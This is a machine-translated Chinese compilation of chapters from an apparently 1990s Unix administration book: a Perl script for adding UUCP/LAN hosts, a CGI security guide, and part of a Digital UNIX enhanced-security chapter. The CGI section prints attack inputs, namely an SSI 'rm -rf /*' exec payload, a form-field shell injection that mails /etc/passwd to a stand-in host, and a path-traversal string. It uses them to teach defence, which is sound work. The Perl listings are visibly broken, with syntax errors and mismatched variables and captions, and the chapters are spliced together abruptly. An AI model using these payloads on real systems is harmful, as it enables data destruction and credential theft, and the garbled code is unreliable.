    rename $nwfile, $group;
    &setperm( $group, ".old", $nwfile );

    # from the passwd file
    $nwfile = $passwd . ".new";
    open OLD, "$passwd" || warn "Cannot open $passwd, $!\n" && return;
    open NEW, "$nwfile" || warn "Cannot create $nwfile, $!\n" && close OLD && return;
    while (<OLD>) {
        if (/^$usrnam/) {
            next;
        }
        print NEW;
    }
    close OLD;
    close NEW;
    rename $passwd, $passwd . ".old";
    rename $nwfile, $passwd;
    &setperm( $passwd, ".old", $nwfile );
}
# Add a user to the passwd and group file
sub adduser
{
    local $usrnam = @_;
    local $gid, $uid, $nuid, $dummy, @uids );

    $usrnam = "wu" . $usrnam;

    # to the group file
    $nwfile = $group . ".new";
    open OLD, "$group" || warn "Cannot open $group, $!\n" && return;
    open NEW, "$nwfile" || warn "Cannot create $nwfile, $!\n" && close OLD && return;
    while (<OLD>) {
        if (/^$usrnam/) {
            chomp;
            $_ .= ",$usrnam";
        }
        print NEW;
```

在新系统能够拨号之前，它必须被添加到 /etc/passwd 文件中。UUCP 连接是通过登录并启动一个特殊的 UUCP shell uucico 来建立的，该 shell 全称为 UUCP copy in copy out。对于每个用户，都会在 /etc/passwd 文件中添加以下行。

uucs*:*:UID:GID:Dial in UUCP account for $%: /usr/spool/uucppublic:/usr/local/lib/uucico

### Listing 16.1 (continued)

```
close OLD;
close NEW;
rename $group, $group . ".old";
rename $mfile, $group;
&setperm($group . "old", $mfile);

# to the passwd file
# find the gid of uucp
($dummy, $gid, $dummy) = getgrnam("uucp");

# find a free uid
setpwent;
while(($dummy, $dummy, $uid, $dummy) = getpwent) {
  push @uids, $uid;
}
endpwent;
@uids = sort numeric @uids;
$uid = shift @uids;
while(@uids) {
  $nuid = shift @uids;
  if ($nuid - $uid != 1) {
    last;
  }
  $uid = $nuid;
}
$uid = $nuid;

$mfile = $passwd . ".new";
open OLD, "$passwd" || warn "Cannot open $passwd, $!\n" && return;
open NEW, ">$mfile" || warn "Cannot create $mfile, $!\n" && close OLD && return;
while(<OLD>) {
  print NEW;
}
close OLD;
print NEW "$username*:*: $uid:$gid:Dial in UUCP account for\n";
$sysnam=/usr/spool/uucppublic:/usr/local/lib/uucico\n";
close NEW;
rename $passwd, $passwd . "old";
rename $mfile, $passwd;
&setperm($passwd . "old", $mfile);

# adduser

sub numeric
{
  $a <=> $b;
}
```


在这行中，%s 会被替换为已添加系统的名称。UID 是唯一的用户 ID 号，GID 是 UUCP 组的组 ID。清单 16.1 中的 adduser 函数将负责处理这些。adduser 首先读取 /etc/group 文件以确定 UUCP 组的 GID。如果找到，它就会把用户 uux% 添加到组文件中。它会打开 /etc/passwd 文件并确定第一个未使用的 UID，然后将该行添加到文件中。该账户默认是禁用的，因为密码字段中有一个 *，出于安全原因，网络或系统操作员应为此账户设置一个秘密密码。当这两个函数成功完成后，远程系统就能够拨入。然而，它仍然需要被提供数据（即邮件和新闻）。接下来要做的就是告诉新闻和邮件软件，它们可以为这个新系统批量发送数据。

## 向新闻配置添加主机

对于 CNews，配置存储在 news 用户主目录下的多个文件中。这也适用于 INN，但文件和格式不同。CNews 的主要配置文件是 sys。该文件包含交换新闻的系统的名称和设置，并定义与某个系统交换哪些新闻组。清单 16.3 包含这个 sys 文件的示例。

### 清单 16.2 填充 UUCP 模板文件并连接到现有 sys 文件，以将主机添加到 UUCP 网络设置中。

```
#START %s
system %s
time Never
baud 38400
port Direct
phone **
called-login uux%s
send-request yes
receive-request yes
called-transfer yes
remote-send /usr/spool/uucppublic /usr/spool/news
local-receive /
remote-receive /usr/spool/uucppublic /usr/spool/news
commands /bin/mail /usr/local/lib/news/bin/rnews
myname ra
#END %s
```

要向此文件添加主机，只需添加一行，描述该系统的新闻组即可。在添加这一行时，%s 标记会被替换为系统的实际名称。在清单 16.1 中，此操作由 addnews 函数完成。当需要将主机添加到局域网配置中时，也会调用此函数。

为了确保系统能够通过 UUCP 批量发送新闻，需要将该系统添加到另一个配置文件 batchparms 中。该文件描述了创建批次时所用的参数（清单 16.4）。

### 清单 16.3 CNews sys 文件的示例。

```
# Only the ME line is mandatory: the others are just samples of how to do
# things. Virtually everything will need modifying for your local feeds
# and newsgroups.
# line indicating what we are willing to receive: note local groups near end
# ME:comp,news,sci,rec,misc,soc,tak,can,ont,tor,ut, to
ME:vpro,comp,news,misc,eunet,nl,ninet,nl,hacktic,general,reseau
# My primary newsfeed
sun4nl:news,misc,comp,eunet,nl,ninet,to,sun4nl/all,general,reseau:ft
# My remote site
#scarab:news,misc,comp,eunet,nacktic,nl,ninet,reseau,to,scarab/all,general
::scarab/logo
# The ones I feed
```

### 清单 16.4 CNews batchparms 文件的示例。

```
# 100KB, after compress, is 10 minutes at 1200 baud
# 20 batches is somewhat arbitrary, about 1MB per site
# defaults: 2.11-compatible compression, transfer by uux
#
# site          class  <size  queue  command
# /default/     u      100000 20     batcher | compcun | viaux
#
# My primary feed
sun4nl         u      100000 20     batcher | compcun | viaux
#
# My secondary feed
#utopia        u      100000 20     batcher | compcun | viaux
#
# My remote site
#scarab        u      1000000 50     batcher | compcun | viaux
#
# I feed these
```

batchparms 规定了单个批次文件的最大大小、是否应压缩以及批次如何发送到远程系统。在此情况下，viaux 设置使批次通过 UUCP 发送。通过添加一行描述系统名称和批次参数默认设置的内容来添加系统。这一操作在清单 16.1 中的 addnewsuucp 函数中完成。

## 向邮件配置添加主机

为邮件向 UUCP 添加主机也很简单。我使用的 sendmail.cf 假定所有 UUCP 主机的名称都包含在一个名为 /etc/mail/sendmail.uunames 的文件中，并且当添加一个 UUCP 主机时，其名称会被追加到该文件。当 sendmail 启动并向主机发送邮件时，这一更改会自动生效。所有这些操作都由清单 16.1 中的 addmailuucp 函数完成。

sendmail 文档描述了如何调整你的 sendmail.cf 文件，以从文件中读取 UUCP 主机的名称。早期版本的 sendmail 程序直接调用 uunames 程序并读取其输出。在 v8 中，出于安全原因，这种做法已被放弃。一旦所有操作成功完成，就会向 root 发送一封邮件，通知其添加成功。

## 移除主机

当需要移除一个主机时，会执行上述操作的逆操作。而且，这些操作会以相反的顺序执行。不过有一个问题。当一个 UUCP 主机即将被移除时，系统可能仍有一些等待传输的批次。这些批次必须先发送完，然后才能从 UUCP 配置中删除该主机，否则一些邮件可能会丢失。

因此，从 UUCP 配置中移除主机是一个两阶段的过程。首先，将该主机从邮件和新闻配置中移除，以防止创建新的批次。这一操作由清单 16.1 中的 deluucpmainews 函数完成。对于邮件配置，会移除 sys 和 batchparms 文件中与该主机相关的行。完成此操作后，系统必须等待所有待处理的批次被发送完毕，或直到最大等待时间到期。如果 24 小时后批次仍然待处理，它们会被移除。如果没有待处理的批次，则调用 deluucp 函数，并将该主机从 UUCP sys 文件中移除。如果有待处理的批次，系统名称会存储在一个名为 /etc/pending.uucp 的文件中。每次 cron 启动该作业时都会扫描此文件。如果作业检测到所有批次都已发送，就会删除该主机。如果 24 小时后批次仍然待处理，它们会从队列中移除，并且该主机从 UUCP 配置（包括 /etc/passwd 和 /etc/group 文件）中移除。一旦主机被彻底移除，就会向 root 发送邮件，通知其删除成功。


## 局域网连接

在网络环境中，主机频繁地连接和断开局域网是很常见的。将主机添加到 UUCP 设置中可能相对复杂，需要编辑分散在文件系统中的多个不相关的配置文件。

管理局域网配置是一个结构更清晰的过程。只需编辑少量相关的配置文件，只有一个例外。用于执行这些功能的程序如清单 16.1 所示。该程序与用于 UUCP 连接的程序相同。程序启动时，它会确定自身的名称。根据这个名称，程序将决定进入 UUCP 配置流程还是局域网配置流程。

## 向 named 添加主机

向局域网配置添加主机涉及几个简单步骤。主机必须分配一个 IP 地址，幸运的是该地址已经包含在 mainsite.lan 文件中。首先，需要将这个 IP 地址添加到 named 配置文件中。named 是负责解析所有 IP 地址转换查询的守护进程。这些配置文件存储在 /etc/named.boot 文件指定的目录中。named 启动时会读取该文件，其中包含指向其他配置文件的指针。该 named.boot 文件的一个示例如清单 16.5 所示。

```
Listing 16.5 An example named.boot file.

; boot file for name server
; type      domain                  source file or host

 directory /etc/inet

; cache
primary   reseau.nl               named.reseau
primary   56.34.193.in-addr.arpa  named.rev
primary   0.0.127.in-addr.arpa    named.local

forwarders 193.78.240.1           ; sun4n1

slave
```

如果主机被添加到网络中，也必须将其添加到正向和反向映射文件中。正向映射（将名称转换为地址）由 named.reseau 文件完成，反向映射（将地址转换为主机名）由 named.rev 文件完成。这两个文件保持得非常简单，其中包含 .data 文件，这些文件里列有主机和 IP 地址。

添加主机时，其信息会添加到其中一个 .data 文件中。named.reseau.data 的一个示例如清单 16.6 所示，named.rev.data 的一个示例如清单 16.7 所示。

因此，只需将信息附加到这两个文件中即可添加主机。如清单 16.2 所示，此操作由 addnamed 函数完成。信息添加到配置后，必须通知 named 程序配置已更改。这是通过向其发送 HUP 信号实现的。收到该信号后，named 程序将重新读取其配置文件，新的数据就会生效。

还有一个问题需要解决。新系统可能无法直接访问，而是通过路由器连接到局域网。该程序唯一能做的就是检查内核中的活动路由表，并测试机器是否可以直接到达。如果不能，会向 root 发送一封邮件，以便他或她调整内核中的路由信息。

### 清单 16.6 named.reseau.data 文件示例

```
; testnet
78 IN PTR isis.reseau.nl.
;
```

### 清单 16.7 named.rev.data 文件示例

```
; testnet
isis IN A 193.34.56.78
;
```

如果你使用了某种安全软件，也需要将这个新主机的名称和 IP 地址添加到那些配置文件中。一个例子是 tcp_wrappers 包，inetd 程序使用它来控制哪些主机可以连接系统。tcp_wrappers 的配置存储在 /etc/hosts.allow 和 /etc/hosts.deny 两个文件中。这两个文件分别控制哪些主机被允许访问和哪些主机被拒绝访问。这些操作由清单 16.1 中的 addsecurity 函数执行。如果你使用其他软件包，可以修改这个函数以满足你的需求。

## 向 news 配置添加主机

除了像 UUCP 配置中描述的那样将主机添加到 sys 文件之外，还需要将新主机名添加到另一个文件 nntp_access。该文件控制哪些主机可以通过 NNTP 访问新闻假脱机存储（见清单 16.8）。此操作由清单 16.1 中的 addnews lan 函数执行。

接下来，将主机添加到基本的网络配置和服务中。系统会向 root 发送一封邮件，通知其添加成功。如果你的网络需要更多调整，你可以在程序中添加函数来执行这些调整。

## 向 mail 配置添加主机

向局域网添加主机时，无需更改邮件配置。由于 sendmail 被配置为使用 named，当配置中添加新主机时，它会自动检测到。

### 清单 16.8 nntp_access 文件示例

```
#
# Sample NNTP access file. "read" implies "xfer".
# Note that "default" must be the first entry in the
# table. Order is important. Put the most restrictive
# entries just behind "default"
#
# by default, nothing is allowed
default        no     no
#
# hosts on the localnet can read and post
fsis.reseau.nl  both   post   *
```


## 删除主机

删除主机与添加主机一样简单。之前描述的添加主机的操作被反转并按相反顺序执行。我假设在删除主机之前，主机已经从网络上物理断开，因此不再有链接指向该主机。

首先，主机从 nntp_access 文件中删除，以便它无法再访问新闻 spool。这是通过 Listing 16.1 中的 delnews law 函数完成的。然后，从 named 配置中删除信息，并通过 HUP 信号通知 named 程序。当这两个任务都成功完成时，root 会被通知删除成功。Root 必须手动检查路由信息，以确保内核中没有多余的路由残留。

## 结论

本章介绍的程序是实验性的，不适合在生产环境中使用。你需要对其进行调整并添加更多错误处理来应对用户和系统错误。该程序向你展示了所涉及的技术以及如何在自己的程序中应用它们。将所有这些简单步骤组合到一个程序中可以节省大量手动工作和潜在的错误。

## 创建安全的 CGI 环境

### David Endler

增强型网页的当前设计趋势通常需要 Web 服务器的数据与用户输入结合进行操作。为此，Web 作者可以从众多页面增强工具中选择，包括通用网关接口（CGI）、Java、ActiveX 和 Javascript。虽然 Java、Javascript 和 ActiveX 可能是最新最好的，但 CGI 编程仍然是操作 Web 服务器本身数据的最方便方式。因此，CGI 编程仍然是处理简单用户输入概念的流行方式。一个不幸的副作用是 CGI 在 UNIX Web 服务器上打开了各种安全风险。

仅仅提到“服务器端执行”这一短语就足以让任何谨慎的系统管理员感到恐惧。如果邮件、域名服务、用户磁盘存储或公司数据库等其他关键服务也驻留在服务器上，安全问题变得尤为重要。虽然完全从 Web 服务器中移除 CGI 功能似乎是一个选择，但设计目标使这不现实。为了保护你的网站，你必须首先建立一个安全的 CGI 环境基础。接下来，你必须找到并修复随着时间推移而添加的 CGI 脚本中的安全漏洞。在本章中，我强调了一些常见的 Perl CGI 脚本错误，并提供避免相关安全问题的建议。

## 从哪里开始

建立安全的基础 CGI 环境的第一步是建立关于 Web 服务器进程所有权的策略。许多与 CGI 相关的安全问题利用了 Web 服务器进程的用户 ID（UID）和组 ID（GID）的权限。因此，Web 服务器进程绝不能以 root 身份运行。以 nobody-nogroup 组合运行 Web 服务器是合理的，因为它为 CGI 程序提供了最少的权限。更好的替代方案是以指定的 UID 和 GID 运行 Web 服务器进程，例如 www。这可以防止 Web 服务器干扰以 nobody 运行的其他服务和程序。在 Apache 和 NCSA 上查看 httpd.conf 以配置 UID 和 GID。

大多数 Web 服务器在设置 CGI 目录结构方面提供几个选项。你可以允许扩展名为 .cgi 或 .pl 的 CGI 脚本位于 Web 服务器根目录下的任何位置。例如，这是一个令人担忧的设置，因为它使监控和维护脚本变得非常困难。为了额外安全，建议只允许服务器查看其“Server Root”下的文件系统——在 NCSA 文档中阅读有关 chroot 的更多详细信息。

在大多数大型 Web 服务器上，CGI 脚本将由不同技能水平的人编写。即使是经验丰富的 UNIX 程序员也很容易落入专门针对超文本传输协议（HTTP）攻击的安全漏洞。为了简化管理并最大限度地减少潜在的安全风险，你应该只定义一个活动的 CGI 可执行目录（大多数 UNIX Web 服务器上命名为 cgi-bin），并且只授予最有能力和最细心的 CGI 程序员写访问权限。即使在这种受限访问下，你也必须警惕识别脚本中的漏洞。创建单独的、非公开的 CGI 开发分区也有助于最大限度地减少安全问题。

CGI 的执行环境还提供了各种其他可配置选项。在定义 CGI 目录的选项时要非常谨慎。例如，对于 NSCA httpd 和 Apache Web 服务器，禁用服务器端包含，即 SSIs 是一个好主意（参见侧边栏“服务器端包含”）。你不应在全局访问文件 access.conf 中启用索引选项的情况下，让随机用户查看 CGI 目录的内容。你能保持的系统信息越私密，入侵者利用明显甚至微妙的漏洞的可能性就越小。


## 服务器端包含

服务器端包含（SSIs）嵌入在你的 HTML 文档中，可以执行或操作环境变量和文件统计信息。典型的 SSI 形式为 `<!-- include_command -->`。如果一个 HTML 文档包含 SSIs，它通常以 .shtml 结尾。

下面是一个示例，名为 test.shtml

```
<HTML><body>
<H1>My page was last modified on </H1>
<!--#echo var="LAST_MODIFIED" -->
</body></html>
```

除了 echo 之外，命令还有 config、include、fsize、flastmod 和 exec。exec 选项使 SSIs 非常危险。exec 会以 Web 服务器的 UID 执行给定的命令。例如，想象一个典型的留言簿，允许人们在消息中输入命令。例如，如果有人输入

```
<!--#exec cmd="/bin/rm -rf /*" -->
```

下次有人浏览消息时你就会有大麻烦！另一个例子，条目

```
<!--#exec cmd="find / -name foo -print" -->
```

将执行全系统搜索名为 foo 的文件。如果有人在他们的 html 文档中粘贴几百次，服务器就会彻底停滞。

一个好的经验法则是禁用你的 Web 服务器上的 SSIs —— 无论它们多么方便，你几乎总能找到绕过它们的方法。

要查看 NCSA 和 Apache 服务器是否已禁用 SSIs，请查看文件 access.conf，查找以下代码片段，并确保选项列表中没有 “Includes”。下面是以 Web 服务器文档根目录为例，但你也应该检查所有已定义的目录。

```
# /home/www/docs being the document root
<Directory /home/www/docs>
# This may also be "None", "All", or any combination of
# "Indexes", "Includes", "FollowSymLinks", "ExecCGI", or "MultiViews".
Options Indexes FollowSymLinks
</Directory>
```

另外，检查 srm.conf 文件中是否存在以下任一行。

```
AddType text/server-parsed .shtml
AddType text/server-parsed-html .html
```

如果找到，请注释掉这些行以防止进一步使用 SSIs。

如果你确实必须在 Web 服务器上使用 SSIs，请在选项列表中加入 “IncludesNOEXEC” 以禁用 exec 命令。这将消除许多危险，但仍会有严重系统滞后的威胁。例如，考虑一个恶作剧者在一百次留言簿中粘贴以下行。

```
<!-- #echo var = "LAST_MODIFIED" -->
```

由数百人查看该页面引起的服务器滞后可能足以让你完全关闭 SSIs。

表单的消息被写入临时文件并发送邮件给 Jane Steak。系统管理员在 cgi-bin 目录安装此脚本几天后，她发现黑客已入侵系统并破坏了有价值的文件，全部归功于 Jane 的脚本。怎么回事？想象一下，黑客在其端设置了一个如下的网页。

```
<HTML><body>
<h1>Hacking beef.com!</h1>
<form action="http://www.beef.com/CGI-bin/doit.pl" method = "get">
<input type="hidden" name="myaddress" value="; rm * ;mail -s Haha hacker@bacon.com </etc/passwd;">
<input type = "text" name=input>
<input type = "submit" value="Hack Away!">
</form>
```

隐藏值字段中的分号充当分隔符，将 UNIX 命令分隔开，使其能够在同一行 shell 中执行多个命令。Perl 中的系统调用会生成一个 UNIX shell，并在此情况下执行值字段中的命令，删除目录中的当前文件并将密码文件发送给黑客。

这里的第一个教训是，传递给 CGI 脚本的用户输入永远不能被信任。第二个教训是避免在 Perl 或任何语言中滥用系统调用。

## 其他系统调用漏洞

如果未正确编码，任何 CGI 系统调用本质上都是危险的。考虑以下 Perl 代码行。记住，Perl 反引号遵循 shell 惯例 —— 即使用引用的字符串作为命令行生成一个 UNIX 子 shell，并且该命令的输出成为 Perl 命令的参数。

```
print `/usr/local/bin/finger $userinput`;
```

这可以通过使用与之前相同的恶意用户输入来利用。一般来说，以下元字符都不应出现在用户输入中。

```
; > < & * ` | $ #
```

以下是一个用于检查这些字符的 Perl 代码示例。

```perl
if ($userinput =~ /[;\|<>*&\|]/) { #match any characters
    print "<h1>CGI ERROR: What are you doing!<\/h1>";
    #print an error
} else {
    print `/usr/local/bin/finger $userinput`;
    #proceed normally
}
```

对于电子邮件地址表单输入，你可以用 Perl 指定一种安全的域格式电子邮件格式，如下例所示。（注意该示例未考虑 UUCP 地址。）

```perl
unless ($userinput =~ /^[\w@\.-]+$/) {
    #if does not match email format
    print "<h1>CGI ERROR: Enter a valid EMAIL address<\/h1>";
    #print an error
} else {
    print `/usr/local/bin/finger $userinput`; #proceed normally
}
```

在 Perl 中，你也可以使用前面示例中的反引号或 eval 语句来执行系统调用。请考虑这些系统调用的以下替代方案。对于电子邮件用途，请使用以下方式。

```perl
open (MAIL, "| /usr/lib/sendmail -t -n");
print MAIL <<END_OF_MESSAGE;
From: $from_input
To: $to_input
Subject: $subject_input

$message_input
END_OF_MESSAGE
```

此示例打开一个通向 sendmail 的管道进程，从而避免用户输入与系统调用带来的危险。

在 system 和 exec 命令下，有一个选项可让你直接调用外部程序，而不是调用 shell。按以下方式列出参数可以防止生成 UNIX shell，从而防止元字符产生不良副作用，并消除任何 shell 漏洞。

```perl
system "/usr/bin/finger", $userinput;
exec "/bin/ping", $ping_argument, $ping_host;
```

下面是另一个防止 shell 漏洞的管道进程示例的通用形式。

```perl
open(Filehandle_name, '|-' ) || exec "program", $arg1, $arg2;
```

通过使用神秘的代码序列 |-，你可以派生一个 Perl 副本并打开通向该副本的管道，该副本将执行 exec 指定的程序。注意程序列表采用前面示例中提到的相同格式。下面的示例说明了这种程序列表格式。

```perl
open(FIND,"|-") || exec "/usr/bin/find",".","-name",$name,"-print";
while (<FIND>) {
    print "found: $_";
}
close FIND;
```

该脚本在系统中搜索输入变量 $name 并打印所有出现的位置。它成功地避免了生成 UNIX shell，从而提高了性能并加强了安全性。有关系统调用的更详细 Perl 替代方案，请阅读 WWW 安全 FAQ 中关于安全脚本编写的部分。

## 打开文件

假设你正在编写一个程序，该程序根据输入消息的用户名来存储消息。你在脚本中添加了以下代码行。

```perl
open(FILE,">/usr/local/message/data/$username");
```

如果用户输入 `../../../../etc/passwd` 作为其用户名会怎样？你可能会遇到严重的问题。打开任何类型的文件句柄时，务必检查 `..`。

## 污点检查：一个有用的工具

Perl 有一个非常实用的选项来处理不安全的用户变量。请考虑 CGI 中的大多数漏洞都源于传递给脚本的用户输入。再想象一下，传递给程序的每个外部变量都被污染了，并且这种污染会像传染病一样扩散到系统的其他部分。Perl 的污点检查可防止任何被污染的变量用于 system、eval、exec 和反引号命令，或任何其他影响外部系统环境的操作。如果检测到此类尝试，Perl 将退出脚本并显示错误消息。

要在 Perl v4 中启用污点检查，脚本的第一行应为

```perl
#!/usr/local/bin/taintperl
```

这将加载一个特殊版本的解释器。在 Perl v5 中，你可以使用 `-T` 选项启用污点检查。例如，

```perl
#!/usr/local/bin/perl -T
```

（如果你不确定自己使用的是哪个 Perl 版本，请键入 `perl -v`。）

一旦用户将其电子邮件地址传入你的脚本，你就应该对该变量进行去污。只有在对其执行模式匹配时，变量才能被去污。只有从变量中提取出预期字符串后，你才能正常使用它。例如，要对电子邮件地址进行去污（示例取自 WWW 安全 FAQ），请使用以下代码。

```perl
$mail_address =~ /([\w.]+@[\w.-]+)/;
$untainted_address = $1;
```

在执行污点检查时，你还需要包含一项内容。由于 Perl 解释器不会默认环境路径，因此即使你的程序不与 shell 交互，你也必须定义它。请确保在代码中包含以下行，否则你将收到关于不安全路径的错误提示。

```perl
$ENV{'PATH'} = '/usr/bin:/usr/local/bin:/bin';
```

黑客最喜欢的技巧是篡改你的环境变量，使其指向另一个目录中的木马。因此，在使用系统调用时，你应该始终指定命令的完整路径。比较以下两个示例以澄清这一点。

```perl
system("finger $untainted_user"); #This is bad. Avoid.
system("/usr/local/bin/finger $untainted_user"); #This is better.
```


## 可怕的自动备份

在实际的 cgi-bin 目录中编辑 CGI 脚本时要小心。某些编辑器，例如 EMACS，如果你编辑原始文件，会创建一个扩展名为 ~ 的备份文件。如果潜在的入侵者 somehow 猜到文件 password.pl 的备份为 password.pl~，他将能够查看备份程序的实际代码，因为服务器不识别扩展名 .pl~。通过将备份文件作为纯文本查看，入侵者可能会通过扫描代码中的漏洞来利用原始的 CGI 程序。留意 cgi-bin 目录中任何可疑类型的扩展名。

## 其他一些零碎事项

关于要在脚本和 cgi-bin 目录中包含的内容，你应尽量不要透露太多关于服务器的信息。例如，finger 命令是一个方便的功能，但它可能会向可能的窥探者透露重要信息，例如主目录或邮件转发路径。关于 cgi-bin 目录中包含的二进制文件和脚本，你应定期仔细检查这些文件。

不要在 cgi-bin 目录中放置任何有价值的信息。如果你的 cgi-bin 包含 query 二进制文件，它可以被浏览器相当阴险地用来搜索特定文件（如 /etc/passwd）。query 随大多数版本的 NSCA 和 Apache 一起提供，因此可能需要做一些整理。像 query 和 finger 这样的命令可能是你系统的漂亮铃铛和口哨，但从长远来看，你会更喜欢禁用这些类型的可执行文件。此外，永远不要被诱骗在 cgi-bin 目录中放置 Perl（或任何解释器）的副本。这个致命错误允许任何具有浏览器和恶意意图的人运行任意命令。

你还应避免让你的脚本以其他用户身份运行。名为 cgiwrap (http://www.umn.edu/~cgiwrap 由 Nathan Neulinger 提供) 的程序允许这种做法，但增加了 CGI 的安全风险。允许脚本以 Web 服务器 UID 以外的用户身份运行，允许写入该用户的主目录，并使他们的文件面临巨大危险。rm -rf * 只需几个按键！

你应定期检查 cgi-bin 目录的内容，特别是如果特权用户不断编辑他们的脚本。对其代码进行快速扫描可以让你在长远来看免于麻烦。

## 建议

大多数 Web 管理员最终会处理 CGI 安全问题，但通常是在攻击或入侵造成的损害发生之后。今天，普通互联网公众对 Web 的了解更多，CGI 漏洞经常在群发邮件和新闻组中讨论。因此，系统管理员必须时刻注意最新的已知安全漏洞和常见的攻击方法。为了防止对这些广为人知的漏洞采取行动，显然尽快修补它们很重要。

作为管理员，你可能已经见过需要警惕并在服务器 CGI 目录中搜索的脚本错误。这里提供的安装提示也有助于规避 CGI 允许的攻击类型和私人数据丢失的类型。如果没有制定适当的政策和具体的脚本程序，CGI 可能成为持续的威胁。与 Webmaster（以及其他 CGI 程序员）协调，讨论所涉及的风险，教育 CGI 作者，并通过订阅 CERT 维护的邮件列表等（http://www.cert.org）及时了解安全新闻。

Web 服务器充当许多公司和组织的唯一外部访问点之一，使其成为互联网上的主要目标。CGI 是一把双刃剑，可能使这些系统遭受敌对攻击。通过意识到 CGI 的可能威胁，你可以更好地保护自己的网站免受破坏、毁坏和信息盗窃。

## 参考文献

- Gundavaram, Shishir. *CGI Programming on the World Wide Web*. Sebastopol, CA: O'Reilly, 1996.
- Schwartz, Randal. *Learning Perl*. Sebastopol, CA: O'Reilly, 1993.
- Schwartz, Randal. *Programming Perl*. Sebastopol, CA: O'Reilly, 1991.
- Schwartz, Randal (with Larry Wall). *Perl 5*. Sebastopol, CA: O'Reilly, 1996.
- http://perl.com for information on Perl.
- Phillips, Paul. CGI Security FAQ. cert.net: http://www.cerf.net/~paul/CGI-security/safe-cgi.txt
- http://www.cert.org for information on CERT.
- Stein, Lincoln. WWW Security FAQ. http://www-genome.wi.mit.edu/WWW/faqs/www-security-faq.html
- www-security-requests@ns2.rutgers.edu for a WWW Security e-mail list. Send an e-mail with the body "subscribe".
- http://hoohoo.ncsa.uiuc.edu/ and http://hoohoo.ncsa.uiuc.edu/cgi/security.html for NCSA documentation.
- http://www.apache.org for Apache documentation.


## Digital UNIX 增强安全性

*Matthew Cheek*

本章描述了 Digital UNIX 上增强安全性（或 C2 安全性）的优势和管理。其他 UNIX 厂商，尤其是 SCO 和 HP，其增强安全性的实现方式与 Digital 类似，并且大多数这些概念和策略适用于他们的操作系统。然而，我将使用 Digital UNIX v3.0 及以上版本（包括 v4.0）来演示增强安全性如何提升您管理 Digital UNIX（DU）系统的能力。

在我初次接触 DU（前身为 OSF/1）后发现的第一件事是，默认安全配置中缺乏影子密码。拥有影子密码意味着将加密密码从世界可读的 /etc/passwd 文件移动到仅 root 可读的文件中。鉴于比较加密密码字符串与加密词典以寻找匹配的破解工具普遍可用，我认为影子密码是必需的。

在查阅系统和安全管理员手册后，我发现 DU 下实际上有两种安全级别：基础安全和增强安全。

基础安全是使用传统 UNIX 密码的默认安全级别。增强安全提供了丰富的密码和登录控制以及广泛的审计功能。密码控制包括影子密码功能、可配置的密码长度（最小和最大）以及密码使用历史。登录控制提供每个终端的设置，用于连续成功或失败登录尝试之间的延迟，能够停用或锁定账户，并记录最后一次成功登录和不成功的登录尝试。审计功能包括每个用户的审计配置文件、广泛的站点可定义事件审计，以及将审计日志发送到远程主机的能力。

一些 DU 系统启用了基础安全，因为人们认为增强安全性的复杂性以及对其功能的有限理解。然而，企业对影子密码和密码老化的安全要求迫使我在我的系统上启用增强安全。不幸的是，增强安全性文档不足，并且在系统管理员人员和用户社区中引起了一些顾虑。出于这些担忧，我决定在一个测试系统上启用增强安全，解决实施和管理问题，并记录该过程。

### 启用增强安全

假设您正在一个运行中且已有现有用户账户的系统上设置增强安全。如果您在全新安装且没有用户账户的系统上启用增强安全，流程也将类似。

您必须首先为增强安全的密码和登录控制选择全局默认值。这些系统范围的全局默认值位于 /etc/auth/system/default 中，并为用户和设备提供值。确定并记录对您的环境最有意义的设置。（请参阅侧边栏“系统默认数据库文件格式”以了解字段定义和建议值。）

一旦您为系统默认值选择了值，您就可以开始启用增强安全，按以下步骤操作。

- 1. 以 root 身份登录。
- 2. 安装增强安全子集，如果尚未安装。
- 3. 运行 secsetup 实用程序并选择 ENHANCED 安全级别。
- 4. 重启系统。
- 5. 调整系统默认数据库文件以反映期望的全局默认值。
- 6. 从 /etc/passwd 文件中删除哈希密码。
- 7. 测试您的应用程序。

显然，要启用增强安全，您必须有重启系统的能力和机会。与用户协调一个方便的时间，以避免干扰他们的工作。

以下各节提供了启用增强安全的详细说明。

### 系统默认数据库文件格式

DU 上增强安全的全局配置文件为 /etc/auth/system/default，并在系统范围内定义用户的值。计划实施增强安全的管理员必须熟悉此文件中指定的值，以便为其系统适当配置增强安全。以下是默认文件，我将使用它作为宽松安全配置的示例。为了避免初始实施时的挫败感，我建议启用增强安全时大多数选项都保持宽松或完全禁用。一旦您更熟悉增强安全，就收紧对您的环境最有意义的选项。

```
default:
	:d_name=default:\
	:d_secclass=c2:\
	:d_boot_authenticate@:\
	:d_pw_expire_warning=8640000:\
	:d_pw_site_callout=/tcb/bin/pwpolicy:\
	:u_mnchg=0:u_minlen=8:u_maxlen=12:u_exp=0:\
	:u_life=0:u_pickpw:u_genpw@:u_restrict@:\
	:u_pwddepth=0:u_nullpw@:u_genchars@:u_genletters@:\
	:u_maxtries=0:u_lock@:\
	:t_logdelay=2:t_maxtries=10:\
	:chkent:
```

默认文件由一个连续的条目组成，其中包含的选项可以借助反斜杠（`\`）拆分为多行。每个选项前面和后面都有冒号（`:`）。如果条目拆分为多行，则每行末尾需要冒号和反斜杠（`:\`），并且每个续行必须以制表符缩进并以冒号开头。

选项可以具有数值、布尔或字符串值。数值选项的格式为 `name=num`。布尔选项的格式为 `name` 或 `name@`，其中第一种形式表示选项为 TRUE，第二种形式表示选项为 FALSE。字符串选项的格式为 `name=string`，其中 string 为零个或多个字符。

条目末尾是 `:chkent:` 字段，表示条目已完成。该字段由读取文件的程序用作条目的完整性检查。

以下文本描述了示例选项的含义。

- **default** — 这个第一个选项只是指定此安全数据库的文件名的头，并且是必需的。
- **d_name** — 此选项指定此安全数据库的名称，不应从字符串 default 中更改。
- **d_secclass** — 此选项是系统支持的安全类别的信息标识符，应设置为 c2。
- **d_boot_authenticate** — 此选项目前未被增强安全使用。


## 以 root 身份登录

执行此过程时，既可以在系统控制台上直接以 root 身份登录，也可以从终端或通过网络以普通非特权用户身份登录后使用 su 切换到 root。使用以下命令检查增强安全性是否尚未启用。

```
# /usr/sbin/rcmgr get SECURITY
```

如果返回字符串 BASE，则表示您正在运行基本安全性。但如果返回字符串 ENHANCED，则表示增强安全性已在此系统上启用，您应跳至第 5 步（“调整系统默认数据库”一节）以调整全局默认值。

## 系统默认数据库文件格式 — 续

d_pw_expire_warning 此选项以秒为单位，用于确定在登录时是否给出密码过期警告。如果用户的密码过期时间落在此时间间隔内，则会给出警告。

